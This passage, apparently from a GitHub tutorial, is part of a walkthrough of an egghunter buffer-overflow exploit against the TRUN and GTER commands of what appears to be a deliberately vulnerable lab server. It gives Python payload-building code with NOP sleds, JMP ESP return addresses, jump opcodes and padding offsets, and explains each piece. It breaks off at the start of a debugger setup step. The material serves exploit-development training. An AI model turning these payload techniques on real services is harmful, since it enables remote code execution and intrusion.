     	# 62501205   FFE4             JMP ESP
    	# Return a bytes object.
    	# Format string '<L': < means little-endian; L means unsigned long
    	b'\xe9\x30\xff\xff\xff' +      # Jump back into NOP sled so we create an infinite loop
    	struct.pack('<L', 0x6250151e)+ # Override Return address, So we can execute on the stack
    	b'\xe9\x30\xff\xff\xff'        # Jump into NOP sled
	)
	```
      * `b'TRUN /.:/'`: We are targiting the **TRUN** buffer as this has the space we need for the shellcode
      * `SHELL`: The Shellcode is placed in the buffer, this can be done anywhere but placing it at the front allows us to avoid accidentally jumping into it.
      * `b'\x90' * (2003 - (len(SHELL) + 5))`: Create a NOP Sled, we do not want to overshoot the return address so we need to account for the length of the shellcode, and the 5 byte instruction for the `JMP` we will perform
      * `b'\xe9\x30\xff\xff\xff'`: This is one of the two `JMP` instructions, this is placed before the return address to prevents us from executing the address as an instruction which may lead to a crashed system state.
      * `struct.pack('<L', 0x6250151e)`: A `JMP ESP` address, this is one of the ones we had discovered with the mona/py command `!mona jmp -r esp -cp nonull -o` in the immunity debugger.
      * `b'\xe9\x30\xff\xff\xff'`: This is one of the two `JMP` instructions, this is placed after the return address so once we take control of the thread when the `JMP ESP` instruction is executed we enter an infinite loop, which prevents us from exiting the function and de-allocating the shellcode we injected for the EggHunter to find. 

6. Generate the EggHunter packet (Python).
	```
	PAYLOAD = (
		b'GTER /.:/' +
		EGGHUNTER +
		b'A' * (143 - len(EGGHUNTER)) +
		# 625011C7 | FFE4 | jmp esp
		struct.pack('<L', 0x625014dd) +
		# JMP to the start of our buffer
		b'\xe9\x66\xff\xff\xff' +
		b'C' * (400 - 147 - 4 - 5)
	)
	```
	* `b'GTER /.:/'`: We are overflowing the buffer of the **GTER** command
	* `EGGHUNTER`: Remember there is not enough space after the return address for the EggHunter shellcode, So we need to place it at the beginning of the buffer (After the command instruction!)
	* `b'A' * (143 - len(EGGHUNTER))`We need to overflow up to the return address so we can overflow it, this can be `A`'s as we used here or the NOP (`\x90`) instruction as used for the **TRUN** overflow in ```step 5```. Since we have space taken up by the EggHunter's shellcode we do not want to overshoot our target and must take it into account!
	* `struct.pack('<L', 0x625014dd)`: A `JMP ESP` address, this is one of the ones we had discovered with the mona/py command `!mona jmp -r esp -cp nonull -o` in the immunity debugger. *Notice* that it is different from the one we used in the **TRUN** instruction! This is only done so we can more easily observe the two packets by setting breakpoints on two unique `JMP ESP` instructions.
	* `b'\xe9\x66\xff\xff\xff'`: This is the only `JMP` instruction we use in the **GTER** overflow, this is placed after the return address so once we take control of the thread when the `JMP ESP` instruction is executed we enter the **GTER** buffer and begin executing the EggHunter.
	* `b'C' * (400 - 147 - 4 - 5)`: Final padding (May be omitted)
7. You now need to setup Immunity Debugger so it allows exceptions to occur.
   1. Open Immunity Debugger 